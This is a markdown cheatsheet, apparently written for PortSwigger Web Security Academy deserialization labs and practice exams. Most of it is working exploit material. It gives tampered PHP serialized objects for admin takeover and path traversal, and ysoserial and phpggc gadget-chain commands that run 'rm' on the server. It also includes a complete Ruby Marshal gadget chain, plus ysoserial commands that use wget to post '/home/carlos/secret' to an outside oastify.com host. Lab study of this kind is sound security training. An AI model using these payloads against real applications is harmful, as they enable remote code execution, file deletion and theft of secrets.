

## General info
- use Hackvertor [cheatsheet](../tools/burp_ext_hackvertor.md)
- You can sometimes read source code by appending a tilde (~) to a filename to retrieve an editor-generated backup file.
- You can declare private attributes for PHP classes. According to PS theory: all of the original object's attributes are stored in the serialized data stream, **including any private fields**

#### PHP format
```
O:4:"User":2:{s:4:"name":s:6:"carlos";s:10:"isLoggedIn":b:1;}
```
- **O:4:"User"** - An object with the 4-character class name "User"
- **2** - the object has 2 attributes
- **s:4:"name"** - The key of the first attribute is the 4-character string "name"
- **s:6:"carlos"** - The value of the first attribute is the 6-character string "carlos"
- **s:10:"isLoggedIn"** - The key of the second attribute is the 10-character string "isLoggedIn"
- **b:1** - The value of the second attribute is the boolean value true

- Hint: Sometimes you will need to exploit a quirk in how PHP compares data of different types. Note that PHP's 
  comparison behavior differs between versions.

#### JAVA format
- serialized Java objects always begin with the same bytes, which are encoded **as ac** ed in hexadecimal and **rO0** in Base64.
- Any class that implements the interface **java.io.Serializable** can be serialized and deserialized. If you have source code access, take note of any code that uses the **readObject()** method, which is used to read and deserialize data from an **InputStream**.

#### RUBY
- https://www.elttam.com/blog/ruby-deserialization/
- https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
- https://phrack.org/issues/69/12 - basic for ruby on rail attacks
- https://red.tymyrddin.dev/docs/in/app/burp/deserialisation/7

## LAB payloads
#### Modifying serialized objects
- Log in
- check session value and decode it: URL -> Base64 -> serialized string
- change admin bool param
- encode it: changed serialized string -> Base64 -> URL

#### Modifying serialized data types
- check cookies

- if you change username to admin and then use it - look at error
- looks like token is harcoded
- but you can change token to an int type
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
or
- In Burp Repeater, use the Inspector panel to modify the session cookie as follows:
    * Update the length of the username attribute to 13.
    * Change the username to administrator.
    * Change the access token to the integer 0. As this is no longer a string, you also need to remove the double-quotes surrounding the value.
    * Update the data type label for the access token by replacing s with i.
- The result should look like this: 
```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```
- Click "Apply changes". The modified object will automatically be re-encoded and updated in the request.

#### Using application functionality to exploit insecure deserialization
- Log in
- upload avatar
- decode cookie:
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b5uvs0yz19tc41syhcj6fwxct8x7qhri";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```
- change path for avatar
```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"b5uvs0yz19tc41syhcj6fwxct8x7qhri";s:11:"avatar_link";s:34:"../../../../home/carlos/morale.txt";}
```
- reload page and delete wiener account

#### Arbitrary object injection in PHP
- find some libs path in the target
- use hint to read source code
- find that there is comment on all pages with TODO
- idea - call destructor using **lock_file_path** attribute, so we need to add value to that attribute
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
or
1. Log in to your own account and notice the session cookie contains a serialized PHP object.
2. From the site map, notice that the website references the file **/libs/CustomTemplate.php**. Right-click on the file and select "Send to Repeater".
3. In Burp Repeater, notice that you can read the source code by appending a tilde (**~**) to the filename in the request line.
4. In the source code, notice the CustomTemplate class contains the **__destruct()** magic method. This will invoke the **unlink()** method on the **lock_file_path** attribute, which will delete the file on this path.
5. In Burp Decoder, use the correct syntax for serialized PHP data to create a CustomTemplate object with the lock_file_path attribute set to **/home/carlos/morale.txt**. Make sure to use the correct data type labels and length indicators. The final object should look like this:
```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
6. Base64 and URL-encode this object and save it to your clipboard.
7. Send a request containing the session cookie to Burp Repeater.
8. In Burp Repeater, replace the session cookie with the modified one in your clipboard.
9. Send the request. The **__destruct()** magic method is automatically invoked and will delete Carlos's file.

#### Exploiting Java deserialization with Apache Commons
- use [ysoserial](../tools/ysoserial.md)
- find collection which give you something like exception
```
java \                     
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED\
 --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED\
 --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED\
 -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
- add it to cookies

#### Exploiting PHP deserialization with a pre-built gadget chain
- find serialized cookies
- sha1 is used for signature
- use hackvector to decrypt serialized obj
- also notice that on home page there is a comment about **phpinfo.php**
- find secret key
- edit session cookie and get error
- notice that symfony is used
- find exploit for symfony
```
phpggc -l symfony 

RCE (Command): ./phpggc Symfony/RCE1 id
RCE (PHP code): ./phpggc Symfony/RCE2 'phpinfo();'
RCE (Function call): ./phpggc Symfony/RCE4 system id
```
- final payload:
```
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' > payload.txt
O:47:"Symfony\Component\Cache\Adapter\TagAwareAdapter":2:{s:57:"Symfony\Component\Cache\Adapter\TagAwareAdapterdeferred";a:1:{i:0;O:33:"Symfony\Component\Cache\CacheItem":2:{s:11:"*poolHash";i:1;s:12:"*innerItem";s:26:"rm /home/carlos/morale.txt";}}s:53:"Symfony\Component\Cache\Adapter\TagAwareAdapterpool";O:44:"Symfony\Component\Cache\Adapter\ProxyAdapter":2:{s:54:"Symfony\Component\Cache\Adapter\ProxyAdapterpoolHash";i:1;s:58:"Symfony\Component\Cache\Adapter\ProxyAdaptersetInnerItem";s:4:"exec";}}
```
- encode in Base64
- sign with sha1 using key
- paste to cookie

#### Exploiting Ruby deserialization using a documented gadget chain
```
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

## Practice exams payloads
- I tried to generate payloads to exploit server, but didn't succeed. So for now only collaborator works.
- Iterate through collections until you get something like exception. Looks like every launch you have to find 
  appropriate collection

#### App 1
- use admin panel, delete some user
- find serialized obj
```
java  \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections6 'wget http://wzz8g0325sted2y3pvyy8e8leck38twi.oastify.com --post-file=/home/carlos/secret'|gzip|base64|tr -d '\n' > payload_collab

java  \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections7 'wget http://...oastify.com 
   --post-file=/home/carlos/secret'|gzip|base64|tr -d '\n' > pa7 && cat pa7
```

#### App 2
- use admin panel, delete some user
- find serialized obj
```
java  \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
   --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \               
   --add-opens=java.base/java.net=ALL-UNNAMED \
   --add-opens=java.base/java.util=ALL-UNNAMED \
   -jar ./ysoserial-all.jar CommonsCollections4 'wget http://...oastify.com 
   --post-file=/home/carlos/secret'|gzip|base64|tr -d '\n' > pa4 && cat pa4
```